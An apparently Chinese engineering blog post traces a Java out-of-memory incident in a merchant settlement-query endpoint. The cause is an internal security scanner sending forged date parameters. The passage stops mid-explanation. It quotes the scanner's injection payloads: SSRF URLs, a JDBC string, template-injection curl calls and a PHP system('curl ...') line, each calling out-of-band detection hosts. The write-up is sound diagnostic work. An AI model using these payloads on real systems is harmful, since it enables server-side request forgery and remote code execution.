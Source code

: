 ![](https://mmbiz.qpic.cn/mmbiz_jpg/Z6bicxIx5naJrGxTQMgibj3wtmLycvIFHmnuYvQVXLqwQe90vlPIrH3emyRr3vTicmY9kXEgiaw1N6dU04wezcPWmg/640?wx_fmt=other&from=appmsg)

 

 

![](https://mmbiz.qpic.cn/mmbiz_jpg/Z6bicxIx5naJrGxTQMgibj3wtmLycvIFHmUPVnBEZ58xZqCqJN0bqT9lCJgssIsrgwLwfYiatnbDbiaicqSDKHb8GTw/640?wx_fmt=other&from=appmsg)

 

但 3 月 29 日的 OOM，跟 6 月 6 日的会是一样吗，过去 2 个多月了，而且 sls 上也没有 3 月份的日志。由于没有更多的方向了，暂时猜测 6 月 6 日的 OOM 跟 3 月 29 日的一样。顺着 grace 给出的信息，去看了下代码。代码的逻辑很简单，查询一个商家在某个时间区间的货款结算数据，数据是按天维度的，一天一条记录，所以这段代码返回的就是 beginTime 到 endTime 之间每天的数据，换句话说，GoodsIncomeSummaryVO 这个对象最多也就是 endTime-beginTime 个了，也就是**两个日期之间的天数。**

 

![](https://mmbiz.qpic.cn/mmbiz_jpg/Z6bicxIx5naJrGxTQMgibj3wtmLycvIFHmguY6bbduhgorxEhTZYD1nZdGU9YjhNSchic91LSdfOAHc7pLA25Gcaw/640?wx_fmt=other&from=appmsg)

 

继续找到前台页面入口，beginTime 和 endTime 对应的是两个时间选择器，给服务端的格式是 yyyymmdd，而且前端限制**每次最多查一个月**，也就是接口最多返回 31 条数据。就算是伪造数据攻击，从 0000-9999 年最多也只有 365*10000=365 万条数据，怎么会出现 5000 多万呢？

 

![](https://mmbiz.qpic.cn/mmbiz_jpg/Z6bicxIx5naJrGxTQMgibj3wtmLycvIFHmNVB78O4siajhcFPJRTh1LlWsHvF73TSQTlXCsrCoQqFwVyrjRbtnrdA/640?wx_fmt=other&from=appmsg)

 

安全攻击

从这个产品功能来看，如果是正常的页面操作，那么单次请求最多返回一个月也就是 31 条数据，而内存中存在大量对象只有一种可能 -- 那就是接口被攻击了。继续分析日志，把时间范围调整到问题发生的时段，果然接口调用量存在明显的上涨，跟前面的猜测一样，6 月 6 日的 OOM 也是由于 GoodsIncomeSummaryVO 这个对象导致的。

 

![](https://mmbiz.qpic.cn/mmbiz_jpg/Z6bicxIx5naJrGxTQMgibj3wtmLycvIFHmuLQVF4f1gChzlzyEMJHdKD9d2vXe8twYpqITBaiakdiaablNysB7Beibg/640?wx_fmt=other&from=appmsg)

 

继续分析日志，发现请求都是来自【heimdall 安全扫描测试账号】，这就是安全部的常用攻击账号。

 

![](https://mmbiz.qpic.cn/mmbiz_jpg/Z6bicxIx5naJrGxTQMgibj3wtmLycvIFHmEt837MVjPRiagEwrhNXKxbKez8ibO8Iicnicctvgiacfou9XwyCzy7F0W0Q/640?wx_fmt=other&from=appmsg)

  

从日志不难看出，安全账号的请求在伪造入参攻击接口，入参中的 [20240529, 20240604] 便是前面提及的 beginTime 和 endTime。而攻击请求中的入参却是另一番模样：

```
[http://140.205.171.167?%0a@fundtax.taobao.com/, 20240604]
[20240529, http://140.205.171.167?%0a@fundtax.taobao.com/]
[//sectesttaobao.com/checkpreload.htm?heimdallpoc=1, 20240604]
[20240529, 20240604jdbc:gbase://48268652-d8cb73efc3a3e66d-1111.1001-None-2c3a455b8ebd4954-1717662929929.gbase.dns.heimdallpoc.cn/test?user=test]
[20240529heimdalldbmarktestd8cb73efc3a3e66d-beginTime-, 20240604]
[20240529, {{ctx.curl('http://48268652-d8cb73efc3a3e66d-11.1-endTime-b5a59b74c90e4e73-1717662922429.ssi2.rce.ihttp.dns.heimdallpoc.cn')}}]
[data:text/plain,<?php system('curl 48268652-d8cb73efc3a3e66d-11.1-beginTime-39fbd8149b59426b-1717662920830.27.rce.ihttp.dns.heimdallpoc.cn');?>, 20240604]
```

再来回顾一下这个接口的逻辑：
